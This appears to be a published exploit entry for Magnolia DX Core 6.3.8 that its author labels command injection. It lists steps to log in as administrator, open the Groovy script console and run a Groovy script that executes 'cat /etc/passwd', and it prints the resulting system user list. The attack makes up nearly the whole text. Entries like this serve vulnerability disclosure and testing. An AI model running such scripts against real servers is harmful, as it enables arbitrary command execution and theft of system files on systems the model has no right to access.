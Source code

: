 # Exploit Title: Magnolia DX Core 6.3.8 - Command Injection
# Date: 05/16/2025
# Exploit Author: tmrswrr
# Version: 6.3.8
# Vendor home page : https://docs.magnolia-cms.com/home/
# Product : https://docs.magnolia-cms.com/product-docs/6.3/releases/release-notes-for-magnolia-cms-6.3.8/
# Demo : https://docs.magnolia-cms.com/product-docs/6.3/getting-started-with-magnolia/demo/


1) Authenticate as an admin:
https://demoauthor.magnolia-cms.com/.magnolia/admincentral
2)After go to Development > Groovy > Add Script
3)Inject Groovy Script:

def process = "cat /etc/passwd".execute()
def output = new StringBuffer()
process.consumeProcessOutput(output, System.err)
process.waitFor()

println ${output}"

Result:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash

